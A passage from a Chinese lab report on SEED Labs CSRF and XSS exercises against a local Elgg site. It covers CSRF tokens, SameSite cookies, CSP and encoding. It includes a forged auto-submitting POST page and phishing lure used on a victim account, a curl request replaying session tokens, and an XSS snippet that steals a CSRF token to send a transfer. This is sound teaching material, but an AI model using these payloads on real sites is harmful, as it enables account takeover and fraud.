         1. 请求url：http://www.seed-server.com/action/profile/edit
         2. 请求参数：__elgg_ts,__elgg_token（该实验环境未开启CSRF Token所以不用考虑）,name,guid,攻击者想要修改的参数discription,不想修改的参数（不用考虑只携带想要修改的参数即可）,cookie（未开启同源cookie机制，浏览器自动携带cookie）
      2. 获取需要的参数值：
            1. guid，name：
               1. 在受害者alice的页面中利用开发者工具inspector，ctrl+F搜索guid和name关键词f发现搜索不到
               2. 换个方法，查看给alice发送添加好友请求的请求包，参数friend的值就是alice的guidguid=56，name就是Alice
            2. discription的值就是我们想要写入alice个人简介中的内容
   3. 设计攻击者网站页面内容
      1. 具体代码：
         ```html
         <html>
         <body>
         <h1>This page forges an HTTP POST request.</h1>
         <script type="text/javascript">
            //javascript代码部分
         function forge_post()      //定义一个名为forge_post的函数，用于创建提交伪造的post表单
         {
            var fields="";         //声明一个字符串变量fileds，用于存储表单中隐藏输入字段的HTML代码
            fields += "<input type='hidden' name='name' value='Alice'>";     //存入字段，type='hidden'：对用户不可见；name='name'：对应Elgg中的用户名字段；value='Alice'：用户名字段的值
            fields += "<input type='hidden' name='briefdescription' value='what is a hero?samy is my hero!'>";       
            fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
            fields += "<input type='hidden' name='guid' value='56'>";
            var p = document.createElement("form");//声明一个变量p，用DOM API创建一个<form>元素，存储在变量p中
            p.action = "http://www.seed-server.com/action/profile/edit";    //指定请求的url  
            p.innerHTML = fields;         //将fileds中的隐藏字段html代码注入到表单内部
            p.method = "post";      //设置HTTP方法为POST
            document.body.appendChild(p);    //在当前页面的body元素末尾追加刚刚创建的表单
            p.submit();    //提交表单
            // 浏览器会向p.action指定的url发送POST请求，请求体中包含四个隐藏字段的值，由于受害者还处于登录目标网站状态，所以浏览器发送POST请求时会自动携带目标网站的Cookie
         }
         window.onload = function() { forge_post();}     //自动触发机制，当页面加载完成后就执行forge_post()函数
         </script>
         </body>
         </html>
         ``` 
      2. 实现的流程效果
         
      3. 修改攻击者网站的相关页面：将攻击者网站相关页面文件editprofile.html中原来的代码修改为上述代码
   4. 发送邮件给受害者
      1. 构造网站跳转链接
         payload`http://www.attacker32.com/editprofile.html` 
      2. 构造诱导邮件并发送给受害者邮件发送完成切换到受害者账号
   5. 受害者点击链接
      1. 查看邮箱又有新邮件
      2. 点击链接
      3. 检验是否成功修改信息攻击成功
3. 任务三：CSRF Token防护措施
   【**需要注意的是**当我们启用防护措施后进行 CSRF 攻击去修改个人资料时，攻击失败后攻击者的页面会被重新载入，这将再次触发伪造的 POST 请求。这会导致另一个失败的攻击，然后页面将继续被重新加载并发送出另一个伪造的 POST 请求。这种无限循环可能会导致您的计算机变慢。因此，在确认攻击失败后，请关闭页面以停止无限循环】
   2. 开启防护
      1. 进入Elgg容器：
         `dockps`查看Elgg容器id
         `docksh <id>`获取Elgg容器的shell
         
      2. 修改配置文件：
         注释掉public function validate(Request $request)函数开头的return语句
                 
   3. 重新运行攻击并观察是否成功
      1. 将任务一和任务二构造好的邮件都发给一个新的受害者boby
      2. 登录boby账号分别点击两个邮件的链接并观察攻击结果
         1. 点击第一个邮件的链接返回后发现页面中有提示缺少__token或__ts，应该是添加好友请求失败了，查看好友列表进行进一步验证攻击失败
         2. 点击第二个邮件的链接返回页面后依旧发现页面中有提示缺少__token或__ts，修改个人信息肯定也页失败了【其实链接页面中的guid和name应该修改为boby的guid和name，但是服务器检验秘密令牌操作在检验guid之前，因此没有秘密令牌服务器直接就不进行后续操作了，所以没必要修改页面代码】
4. 任务四：同源cookie防护措施
   1. 网站配置
      1. 网站url：http://www.example32.com/
      一旦访问过这个网站，浏览器将设置三个 cookie：cookie-normal, cookie-lax 和 cookie-strict。
      如名称所示，第一个cookie是一个普通的cookie；第二个和第三个是两种类型的同源cookie（Lax类
      型和Strict类型）
      2. 设计两组实验来测试哪些cookie会被发送给服务器。点击网页中的链接。
         1. 链接A指向example32.com的页面
         2. 链接B指向attacker32.com的页面
         3. 这两个页面几乎是相同的（除了背景颜色），并且它们都发送了三种不同类型的请求到www.example32.com/showcookies.php，该页面仅仅显示浏览器发送的cookie。通过查看显示结果，可以知道哪些cookie被发送 
   2. 实验内容
      1. 分别在链接A和链接B中发送三个请求描述返回页面内容并接解释原因
         1. 链接A：
            1. 页面返回的内容
               1. 请求1页面内容：cookie被成功发送
               2. 请求2页面内容：cookie被成功发送
               3. 请求3页面内容：cookie被成功发送
            2. 原因：链接A指向example32.com的页面，与目标网站同源，由该页面向example32.com网站发送请求，不论cookie是什么类型，浏览器都会自动携带
         2. 链接B：
            1. 原因：链接B指向attacker32.com的页面，与目标网站不同源，由该页面向example32.com/网站发送的请求属于跨站请求。即使是跨站请求，普通类型的cookie也会被浏览器自动携带；Lax类型的同源cookie可以允许在部分的跨站请求中被浏览器自动携带；而Strict类型的同源cookie则不允许在任何形式的跨站请求中被浏览器自动携带。
            2. 具体请求 
               1. 请求1
                  1. 页面内容：只有普通cookie和Lax类型的Cookie被浏览器自动携带 
                  2. 具体原因：Lax-cookie可以允许在通过链接跳转的GET请求中被浏览器自动携带 
               2. 请求2：
                  1. 页面内容：只有普通cookie和Lax类型的Cookie被浏览器自动携带 
                  2. 具体原因：Lax-cookie可以允许在通过GET表单提交的请求中被浏览器自动携带 
               3. 请求3：
                  1. 页面内容：只有普通cookie被浏览器自动携带 
                  2. 具体原因：Lax-cookie不允许在POST表单提交的跨站请求中被浏览器自动携带               
      2. 修改Elgg应用程序以利用同源cookie机制来防御CSRF攻击
         1. 修改PHP配置文件php.ini
            1. 找到apache目录下的php.ini文件
            2. 在 php.ini 中设置 SameSite属性为Strict重启web服务器让配置生效
            3. 在web浏览器中配置是否生效配置生效
         2. 关闭CSRF Token防护措施
         3. 进入alice的账号
            1. 清空Brief description中的内容
            2. 删除好友samy
         4. 重新发起攻击
            1. 点击任务一邮件中的链接，然后查看是否成功添加好友，没有成功添加好友，防御成功
               1. 查看Network中的请求包发现没有Request Cookie，说明浏览器没有自动携带Cookie，导致服务端校验Cookie时判定该请求不合法所以拒绝了添加好友请求
               2. 为了对比，查看由alice本人发起的添加好友请求的请求包，发现有Request Cookie
            2. 点击任务二邮件中的链接，然后查看是否成功修改个人信息发现直接跳转出去了。重新登录发现个人信息没有被修改，防御成功
               1. 查看Network中的请求包依旧没有Request Cookie
               2. 为了对比，查看由alice本人发起的修改个人信息请求的请求包，发现也有Request Cookie
         5. 成功通过修改Elgg应用程序以利用同源cookie机制达到防御CSRF攻击的目的
## 工具使用
1. HTTP Header Live
2. Web开发者工具
   1. 不同工具的作用
      1. **Inspector**：查看编辑页面DOM结构和css样式
      2. **Console**：查看javascript日志、错误信息，执行js代码
      3. **Debugger**：设置断点逐步调试js代码
      4. **Network**：查看所有HTTP请求和响应
      5. **Storage**：查看cookie，本地存储，会话存储
      6. Style Editor：查看和编辑css样式
      7. Performance：分析页面性能，记录加载时间
      8. Memory：分析内存使用情况
      9. Accessibility：检查页面无障碍访问性
      10. Application：查看Service Worker、Manifest等
   2. Network Tool【查看网络请求】
      1. 启用方法
      2. Network 标签页常用功能
       
   3. Web开发者工具Concole【JavaScript调试】
      1. 启用方法
      2. Console过滤器
       
      组合使用技巧
          
## 实验总结
1. 踩坑
   1. 虚拟机与docker之间的网络连接出了问题
       1. 在实验环境搭建好之后
          尝试用浏览器访问`http://www.seed-server.com`但访问不了
          在终端`ping 10.9.0.5`也ping不通
       2. `dockps -a`
           查看所有运行的容器发现存在以前运行的但没有终止的容器且映射的ip地址与本实验冲突导致实验网络配置混乱
       3. `dcdown`停止所有在运行的容器
       4. `dockps -a` `docker network ls` 确认环境已清空
       5. `dcup`重启容器
       6. `docker network ls`确认网络已创建
       7. `dockps -a`确认容器已启动且只有本实验的两个容器
       8. `ping www.seed-server.com`验证网络连通性可以ping通
       9. 浏览器访问`http://www.seed-server.com`语句可以访问了
   2. 进行任务一时我在编辑About me时注入并保存了正确的恶意代码但其他用户访问时却没有弹窗
      原因：Elgg 的资料编辑框默认是 “编辑器模式”，它会自动将你的输入转换成 HTML 实体或者添加额外的标签，从而“无害化”你的脚本。
      文本模式&编辑器模式：
        文本模式下：你输入的 <script\> 标签会被原样保存。
        编辑器模式下：你输入的 <script\> 可能会被转义成 \&lt;script\&gt; 之类的纯文本，或者被包裹在其他标签中，导致无法执行。
      解决方法：点击右上角的Edit HTML，切换为文本模式之后再注入恶意代码即可注入成功  
   3. 在CSRF实验任务四修改Elgg应用程序防御CSRF任务中，我修改php.ini中的samesite配置为`session.cookie_samesite = "Strict" `但在浏览器中未生效
      1. 在配置文件中已经完成修改
      2. 但在浏览器中samesite还显示NONE
      3. 原因：要想在web服务中生效应该修改/etc/php/7.4/apache2/php.ini文件中的内容，但我修改的是/etc/php/7.4/cli/php.ini文件中的内容【这是命令行PHP使用的】
      4. 修正：要修改的是apache2目录下的php.ini文件
2. 问题与思考
   1. 为什么攻击者不能将外部脚本的src改为可信域名
     因为浏览器只会根据src的url去下载文件所以伪造src的关键是在可信域名的服务器上上传恶意脚本文件 
      1. 由于同源策略（禁止一个源的网页，去读取或修改另一个源服务器上的内容），所以攻击者无法通过javascript在可信域名的服务器上部署一个恶意脚本文件
      2. 攻击者服务器vs可信服务器：攻击者只能在自己的服务器上部署文件而没有权限在可信域名的服务器上上传恶意文件
     因此如果src的url指向的是可信域名的服务器，那么下载下来的内容只能是网站开发者上传的文件而不可能是攻击者上传的恶意脚本文件 
   2. 攻击者要将脚本注入到可信的web页面&攻击者注入的脚本来源于可信域名
       1. 脚本注入到可信的web页面：页面本身的可信度（决定了脚本的破坏力和权限边界）
          如：注入到权威的网站页面（www.bank.com、www.facebook.com、www.seed-server.com 这样的合法网站） 能拿到有用的cookie或session且用户对权威域名的警惕性低
       2. 脚本来源于可信域名：脚本的可信度（决定了脚本能否被浏览器执行）
   3. 为什么经过HTML实体编码后浏览器就不解析执行`<script>alert('XSS');</script>`这段代码而是直接输出这段文字
      1. 核心原理：经过HTML实体编码后的内容只能被浏览器识别为文本字符串而非代码
      2. 浏览器区分代码和文本的机制
         HTML实体编码前`<script>alert('XSS');</script>` 
          当浏览器解析到<时，进入标签开始状态
          继续读取s，c，r，i，p，t，确认这是一个开始标签
          读取到>时标签解析完成，浏览器确认这是一个标签，要将里面的内容作为代码执行
          然后继续读取标签中的内容`alert('XSS');`并交给JavaScript引擎执行
          接着读取到`</script>`，脚本结束
        使用htmlspecialchars()进行HTML实体编码后`&lt;script&gt;alert('XSS');&lt;/script&gt;`
          当浏览器读取到&时进入"字符实体参考状态"
          接着读取l，t，;并在HTML实体表中查到\&lt;对应<
          浏览器知道了这是代表字符的符号而不是代表标签的符号，元素浏览器在内存中生成字符<
          同理\&gt;被解析为字符>
          整个字符串被解析完之后，浏览器会将解析之后的字符串发送给渲染引擎进行渲染输出
          最终在页面上显示文本`<script>alert('XSS');</script>`
   4. 在窃取用户机器上的cookie任务中我发现两次登录boby账号的cookie不同？
      Session Cookie默认在每次会话结束后就删除因此退出账号重登后Session Cookie的值不同 
   5. xss实验任务五中为什么我们在我们自己构造的修改信息请求的请求体中传入需要修改的参数并且采用urlencoded格式即可
      1. Elgg服务器在处理POST请求表单时通常支持两种Content-Type一种是multipart格式，浏览器原生表单格式；一种是urlencoded格式，Ajax请求常用，Elgg也接受
         验证方法：在命令行用curl测试一下
            ```bash
            curl -X POST "http://www.seed-server.com/action/profile/edit"\ 
            -H "Content-Type: application/x-www-form-urlencoded" \
            -b "Elgg_session=你的session" \
            -d "__elgg_ts=1776276555&__elgg_token=hyUzhGm...&name=Alice&guid=38&description=test&accesslevel=2"
            ``` 
            发现请求成功
         不用multipart格式的原因：
            multiple格式需要手动处理字符串边界
            需要正确处理换行符（\r\n）
            恶意代码中肯包含边界字符串，导致解析错误
            代码冗长，容易出错
         实验urlencoded格式的原因：
            参数采用键值对格式用&连接多个参数
            构造payload时进行字符串拼接即可
            绝大多数浏览器都支持urlencoded格式
            可靠不易出错
      2. Elgg服务器的/action/profile/edit的工作原理是
         1. 接收POST请求表单中的所有参数
         2. 对于收到的参数，用新值替换数据库的值
         3. 对于没收到的参数，保持原数据库的值不变
        所以我们构造的payload中只需要有证明身份的参数Cookie；证明请求合法性的参数__elgg_ts、__elgg_token；告诉服务器要修改哪个用户的信息guid；防止服务器进行验证的信息name；权限级别信息accesslevel（不提供则使用默认值2）；我们想要修改的个人信息参数即可    
   6. csrf实验任务二中攻击者如果想要修改访问他恶意网站的任何人的Elgg个人信息可以吗（在事先不知道谁会访问的情况下）
      1. 不可以，因为POST请求中需要携带guid参数，如果事先不知道谁会访问就无法提前获取该访问者的guid，csrf受同源策略的读取限制，无法读取目标网站页面中的内容从而无法动态获取当前访问者的guid
      2. 对比xss实验：xss不受同源策略的读取限制可以通过javascript变量elgg.session.user.guid获取当前页面中的guid从而实现动态获取当前访问者的guid
   7. CSRF实验任务三中，为什么攻击者无法从页面中获取秘密令牌
      1. 受同源策略读取限制，攻击者网站与目标网站不同源因为无法通过读取目标网站页面中的秘密令牌
      2. 对比XSS，XSS不受同源策略读取限制可以通过javascript变量elgg.security.token.__elgg_token和elgg.security.token.__elgg_ts获取秘密令牌
   8. 
3. 知识点
   1. CSP&可信域名：
      1. 核心
        网站管理员或开发者通过Content-Security-Policy响应头明确告诉浏览器只有来自这些域名的脚本，才信任并执行，其他来源或内联的脚本一律不执行【浏览器只判断脚本来源不判断脚本好坏】
      2. CSP配置
        `Header set Content-Security-Policy "default-src 'self'; script-src 'self' *.example70.com"`  
            参数详解：
                `default-src 'self'`默认可信来源为self
                `script-src 'self' *.example70.com`定义脚本的可信来源
                    self为当前域名
                    *.example70.com为www.example70.com及其子域名
            浏览器根据是否是可信域名判断是否执行脚本
                1. 内联脚本`<script>alert('a')</script>`，CSP中没有Unsafe-inline关键字，不执行内联脚本
                2. 来自自身的脚本`<script>src="script_area4.js"</script>`，执行
                3. 来自example60的脚本`<script>src="http://www.example60.com/script_area4.js"</script>`不可信域名，不执行
                4. 来自example70的脚本`<script>src="http://www.example70.com/script_area4.js"</script>`可信域名，执行
       3. 能防御XSS的原理
          无CSP时：浏览器无法识别脚本来源，无法判断脚本内容是否安全只能全部执行
          又CSP时：浏览器根据脚本是否来自可信域名可以明确判断是否执行 
       4. 攻击者困境：攻击者进行XSS根攻击的形式通常有两种
          1. 内联脚本：`<script>恶意代码</script>`
             困境：没有明确的来源，在严格CSP下会拒绝执行 
          2. 外部链接：`<script src="http://不可信域名/evil.js"></script>`
             困境：脚本来源是不在网站管理员或开发者配置的可信域名列表中，浏览器会拒绝加载该外部文件 
   2. 同源策略（Same-Origin Policy）与CSRF&XSS： 
      1. 核心关系图
         ```
         同源策略 (SOP) —— 浏览器安全模型的基石
            │
            ├── 它"堵"了什么？ → 堵住了跨站读取数据的能力
            │                        ↓
            │                   XSS 就是绕开这堵墙
            │                   （通过注入脚本，获得"同源"身份）
            │
            └── 它"放"了什么？ → 放过了跨站发送请求的能力
                                    ↓
                                 CSRF 就是利用这个放行
                                 （跨域能发请求，但不能读响应）
         ``` 
      2. SOP
         1. 同源的含义：协议相同，域名相同，端口相同
         2. 核心规则：浏览器的同源测略禁止一个源（attack.com）的网页去读取或修改另一个源（www.example32b.com）服务器上的内容，但是可以允许跨域名发送请求（不过不能读取响应），默认允许嵌入资源（如：`、<script src="...">、<iframe>`）
         3. 关键突破点：SOP限制的不对称性【能发不能读】
      3. XSS攻破SOP的读取限制 
         1. 本质：XSS是在当前页面中注入恶意代码，因此通过该恶意代码向该网站发起的请求一定是同源的，不受SOP限制
         2. 一旦攻击者成功在目标页面（如 bank.com）注入并执行了恶意js代码就可以
            读取当前页面的任意 DOM 数据
            通过 document.cookie 窃取 Cookie
            用 fetch/XMLHttpRequest 发起同源请求并读取响应
            以用户的身份执行任意操作
         3. 难点：XSS的难点在于如何向页面中注入恶意代码并能让代码被浏览器解析执行
      4. CSRF利用SOP的发送放行
         1. 本质：并非绕过SOP的读取限制，而是利用SOP允许跨站发送请求的规则
         2. 关键点：CSRF攻击者不需要读取响应内容，只要请求执行成功即可，SOP虽然阻止了attack.com读取bank.com的响应，但恶意请求已经执行了
         3. CSRF的攻击面：Cookie的自动携带+SOP不阻断跨站请求发出
         4. 难点：无法绕过CSRF token，SameSite Cookie的限制
   3. 内联脚本&外部脚本
       1. 内联脚本是HTML页面中的内容
        2. 特点：
            代码直接嵌入HTML文件的标签内
            无独立的文件，脚本内容和HTML混在一起
        3. CSP的应对策略
           1. 完全禁止`script-src 'self'`只允许执行来自本站域名的外部脚本文件 
           2. 使用nonce（一次性随机数）
             ```html
            <script nonce="随机数">
                alert('a');   
            </script>
             ```
             服务器会为每一个合法的内联脚本生成一个随机数，只有内联脚本携带的随机数与服务器生成的匹配时内联脚本才能执行
             攻击者不知道该随机数从而导致注入的脚本无法执行
           3. 使用hash（内容哈希）
              `script-src '合法内联脚本内容的哈希值'`
              预先计算合法内联脚本内容的哈希值，攻击者注入的内联脚本内容与合法的内联脚本内容不同哈希值不匹配从而拒绝执行 
       2. 外部脚本是通过src属性从外部文件中加载的脚本`<script src="url"></script>`
        3. 特点
            代码独立存在于一个恶意脚本文件中，通过src属性引用
            脚本内容和HTML分离 
   4. Unsafe-inline：CSP中的一个关键字，用于允许内联脚本执行
       1. 名字含义：不安全的内联（因为该关键字存在会削弱CSP的防御能力，让XSS有机可乘）
       2. CSP默认禁止内联脚本执行，如果非要执行内敛脚本就要明确声明Unsafe-inline
       3. 控制的内容：
          1. `<script>`标签内的代码`<script>alert('a')</script>`
          2. HTML事件属性`<button onclick="doSomthing">`
          3. javascript：伪协议`<a herf=javascript:alert('a')>`
   5. XHR（XMLHttprequest）【AJAX请求的核心技术】
       本质：浏览器提供的一个JavaScript对象
       作用：让网页在不刷新的情况下向服务器发起HTTP请求并接收响应
       常见说法：AJAX请求，异步请求，后台请求
       普通请求 vs XHR 请求
        
       升级版的XHR：Fetch【语法更简洁，功能更强大】
   6. xss蠕虫
        
   7. Cookie详解
       1. 定义：服务器发送给浏览器的保存在浏览器本地的一块大小不超过4KB的数据，会再以后每次浏览器向服务器发起请求时被浏览器自动携带在请求中要求发送给服务器
       2. 核心特征：
          1. 大小限制：每个Cookie通常不超过4KB
          2. 数量限制：每个域名最多20-50个cookie（根据浏览器不同而有差异）
          3. 存储位置：位于浏览器客户端（用户内存或硬盘中）
          4. 自动携带：Cookie设置后每次浏览器向服务器发起请求时都会自动携带
          5. 键值对结构：key=value
       3. 用途：
          1. 保持连接状态
          2. 记录用户喜好
          3. 记录用户行为
       4. Cookie的完整结构：`name=value; Expires=Wed, 21 Oct 2025 07:28:00 GMT; Path=/; Domain=.example.com; Secure; HttpOnly; SameSite=Lax`
       5. 类型
          1. 会话Cookie：
              每次会话结束后【浏览器关闭后】自动删除
              存储在内存中
              例：Session ID
          2. 持久化Cookie：
              到达设置的过期时间之后才删除  
              存储在硬盘中
              例：记住密码，主题设置
       6. 安全性措施
          1. HttpOnly：
             作用：禁止javascript通过document.cookie读取cookie，只在http请求
             设置方式：`Set-Cookie:sessionId=abc123; HttpOnly`
          2. Secure:
             作用：只允许https协议传输http请求不携带Cookie
             设置方式：`Set-Cookie:sessionId=abc1123;Secure`
          3. SameSite（对SOP策略的补充加固）
             作用：控制跨站请求是否携带Cookie，防止CSRF攻击
             可选值：
                NONE：允许跨站携带
                Lax：部分网站允许跨站携带
                     
                Strict：不允许任何跨站请求携带
             设置方式：
                ```http
                Set-Cookie:sessionId=abc123;SameSite=Lax
                Set-Cookie: sessionId=abc123; SameSite=Lax
                Set-Cookie: sessionId=abc123; SameSite=None; Secure
                ```
          4. Domain
             作用：指定对哪些域名的请求携带Cookie，限制Cookie的作用域
             设置方式：
          5. Path
             作用：指定对哪些路径的请求可以携带Cookie，限制Cookie的路径范围
             设置方式：`Set-Cookie:sessionId=abc123;Path=/`
          6. Expires/Max-Age
             作用：设置Cookie的生命周期，限制Cookie的有效时间
             设置方式：
                ```http
                Set-Cookie: rememberMe=yes; Expires=Wed, 21 Oct 2026 07:28:00 GMT
                Set-Cookie: sessionId=abc; Max-Age=3600   // 1小时后过期
                ```
                建议Session Cookie不设置生命周期，结束会话自动删除，rememberMe生命周期可以长一点，敏感信息设置较短的生命周期
   8. elgg网站中的CSRF 秘密令牌防御机制
      1. 核心原理：web应用在页面中嵌入不可预测的令牌，要求所有请求必须携带该令牌，服务器验证令牌的有效性。而攻击者无法获取令牌，因此无法伪造请求
      2. 令牌形式
         1. __elgg_ts:时间戳 (Timestamp)	记录令牌生成时间，可设置有效期
         2. __elgg_token:安全令牌 (Token)	核心验证凭证，基于多种信息生成
      3. 令牌嵌入形式
         1. HTML表单中的隐藏字段
            ```html
            <input type="hidden" name="__elgg_ts" value="1403464813" />
            <input type="hidden" name="__elgg_token" value="fC98784a9fbd02b68682bbb0e75b428b" />
            ``` 
            出现在所有需要用户操作的页面或表单中，表单提交时自动添加到HTTP请求中
         2. javascript变量
            ```javascript
            elgg.security.token.__elgg_ts;    // 时间戳
            elgg.security.token.__elgg_token;  // 令牌            
            ``` 
            供当前页面中的javascript代码访问，方便AJAX请求获取令牌
         3. 动态生成（securitytoken.php）
            ```php
            $ts = time();                                     // 当前时间戳
            $token = elgg()->csrf->generateActionToken($ts);            // 生成令牌
            echo elgg_view('input/hidden', ['name' => '__elgg_token', 'value' => $token]);
            echo elgg_view('input/hidden', ['name' => '__elgg_ts', 'value' => $ts]);
            ``` 
      4. 令牌生成算法（Csrf.php）
         1. 输入参数
            $timestamp：服务器当前时间，确保令牌时效性
            $session_token：__elgg_session，用户会话ID + 随机字符串 
         2. 生成流程
            ```php
            public function generateActionToken($timestamp, $session_token = '') {
               if (!$session_token) {
                  $session_token = $this->session->get('__elgg_session');  // 获取会话令牌
               }
               return $this->hmac
                  ->getHmac([(int) $timestamp, $session_token], 'md5')     // HMAC-MD5哈希
                  ->getToken();                                             // 返回令牌字符串
            }            
            ```
         3. 核心特点
            哈希算法：HMAC-MD5
            哈希输入：[时间戳, 会话令牌]
            密钥来源：网站提供的秘密值（未在代码片段中显示，由hmac对象管理）
            唯一性保证：令牌 = HMAC(时间戳 + 会话令牌) 
      5. 令牌验证机制
         1. 验证流程
            ```php
            public function validate(Request $request) {
               // 实验时禁用了防护（直接return）
               // return;  
               
               $token = $request->getParam('__elgg_token');  // 获取请求中的令牌
               $ts = $request->getParam('__elgg_ts');        // 获取请求中的时间戳
               
               // 验证令牌有效性...
               // 如果无效：拒绝操作 + 重定向到其他页面
            }            
            ```
         2. 验证逻辑
            检查__elgg_ts和__elgg_token是否存在
            检查时间戳是否在有效期内（防重放攻击）
            使用相同算法重新计算令牌
            比对提交的令牌与计算的是否一致 
   9. 
## XSS&&CSRF
1. 区别
    
2. 联系
   1. XSS 是 CSRF 的"降维打击"
      这是两者最核心的联系：XSS 可以完全覆盖 CSRF 的能力，但反过来不行。
      如果你拿到了 XSS，你可以在目标页面用 JavaScript 读取 CSRF Token，然后合法地发起请求，CSRF 的防御在 XSS 面前形同虚设。
      但如果你只有 CSRF，你只能"盲打"（发送请求，无法知道结果），更无法通过 CSRF 获取页面上的敏感数据。
   2. 二者都属于客户端漏洞
      两者都不需要服务器端存在逻辑缺陷，而是利用了：
      浏览器对脚本的执行机制（XSS）
      浏览器对 Cookie 的自动携带机制（CSRF） 
3. 实战结合
   1. XSS 窃取 CSRF Token（绕过防御）
      攻击流程：
      1. 攻击者发现某论坛存在存储型XSS
      2. 恶意脚本在用户访问时执行，通过document.querySelector读取表单中的CSRF Token
      3. 脚本自动构造请求，携带正确的 Token 提交转账操作
      脚本示例：
      ```
      // XSS 脚本示例：读取 Token 并发起请求
      const token = document.querySelector('input[name="csrf_token"]').value;
      fetch('/api/transfer', {
         method: 'POST',
         headers: { 'X-CSRF-Token': token },
         body: JSON.stringify({ to: 'attacker', amount: 1000 })
      });
      ```  
   2. CSRF 上传恶意文件 → 触发存储型 XSS
      攻击流程：
      1. 目标系统有 CSRF Token 防护，但上传接口未严格校验文件类型
      2. 攻击者构造恶意 HTML 页面，包含一个隐藏的\<form>，通过 CSRF 方式自动提交一个包含恶意 JavaScript 的 .html 或 .svg 文件
      3. 上传成功后，文件被存储在服务器
      4. 攻击者诱导管理员或用户访问该文件 URL，触发 XSS
   3. XSS 配合 CSRF 进行"无感攻击"
      攻击者利用 XSS 注入脚本，脚本在后台自动发起 CSRF 请求，用户完全无感知。
      传统 CSRF：用户需要访问攻击者控制的恶意页面（如点击钓鱼链接）
      XSS + CSRF：用户只需正常访问被注入的网站，恶意脚本在后台自动完成 CSRF 请求，隐蔽性极强
4. 防御措施
   防御CSRF：优先开启SameSite Cookie，配合CSRF Token
   防御 XSS：优先做好输出编码、CSP、输入过滤
   优先级：如果资源有限，先修XSS。因为XSS不仅自身危害大，还能直接绕过CSRF防御 
    


